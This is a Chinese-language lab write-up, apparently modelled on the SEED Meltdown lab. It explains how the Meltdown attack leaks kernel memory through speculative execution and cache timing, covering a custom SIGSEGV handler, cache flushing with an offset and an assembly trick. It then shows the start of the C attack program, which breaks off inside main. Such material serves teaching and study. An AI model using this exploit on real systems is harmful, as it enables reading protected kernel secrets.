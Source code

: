 第一行的`kernel_data_addr`指向一个内核态地址，而第一条语句是读取其中的数据。如果这一条语句程序出现在一个用户态程序中，就是非法的。系统会在检测到非法访存时抛出异常。但实际执行时，由于检测异常需要一定时间，在等待异常结果的过程中，程序会继续执行下面的语句，直到确认异常后，才会将之后执行语句的结果都丢弃。但后续语句对缓存的影响被保留了下来。第二条语句中以内核数据`kernel_data`作为地址访问数组元素，这会导致对应的块被装入缓存。如果能够排除先前缓存中的内容带来的干扰，就可以通过判断缓存中有数组的那一块来判断内核数据的值。由于访存操作和异常判断操作是同时开始的，访存时间越短，留给后序语句执行的时间也就越长，越可能使后序语句对缓存造成影响。因此，在攻击前要预先将内核数据调入缓存，以降低访存时间，提高成功率。

完整的攻击程序中需要处理一些问题，下面逐个解释：（本模块完成过程中参考了SEED实验的实现）

首先是如何处理异常。默认的异常处理程序处理内存访问异常后会直接终止程序的执行，这样一来就不能通过进行后续的缓存检测操作了。所以我们需要在程序中修改异常处理程序。使用`signal`函数可以修改默认的异常处理函数，将新的处理函数定义为遇到异常后直接执行后序代码段，就避免了进程被终止。为了实现这一效果，需要使用两个函数`sigsetjmp`和`siglongjmp`。第一个函数将程序当前状态信息储存在一个缓冲区（jbuf）中，然后继续执行，正常情况下返回值为0；而第二个函数读取缓冲区变量，然后使程序跳转到前一函数执行后的返回语句继续执行，但这个函数会给第一个函数与先前不同的返回值（由其第二个参数指定），以实现不同的执行分支。

其次，要避免缓存中已有的块对结果的影响，一方面，在每次预期将某个块装入缓存前，需要清空缓存中所有与待装入块相关的块；另一方面，为数组中的每一个用于判断的变量设置一个偏移量（OFFSET，在本程序中为2048）。这样可以保证各元素两两距离相同，位于不同块，同时也可避免头个元素由于被装入了其他块而影响实验的结果。

最后，为了提高实验的成功率，还需要一点小技巧，即下面这段代码：

```c
asm volatile(
    ".rept 400;"            
    "add $0x141, %%eax;"
    ".endr;"                    

    :
    :
    : "eax"
); //magic
```

这段代码会生成一段汇编程序，重复向`%eax`寄存器计算400次加法。Meltdown 论文中称这一段代码会占用 CPU 中按的 alu 单元，以增长访存异常判断的时间，提高成功率。实际测试中，在引发异常的语句之前添加这条语句，确实大幅提高了内核数据获取的成功率。

完成的攻击代码如下：

```c
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>
#include <string.h>
#include <signal.h>
#include <setjmp.h>
#include <fcntl.h>
#include <emmintrin.h>
#include <x86intrin.h>

#define CACHE_HIT_TIME (250)
#define OFFSET 2048

static sigjmp_buf jbuf;

static void stop_handle()
{
   siglongjmp(jbuf, 1);
}

int main(){

    signal(SIGSEGV, stop_handle);
    // SIGSEGV is set when an invaild memory access is detected
    // change the exception handler so it won't terminate the process

    unsigned char array[256 * 4096];

    int length;
    long long address;
    printf("input length of secret message: ");
    scanf("%d", &length); 
    printf("input starting address of secret message\n");
```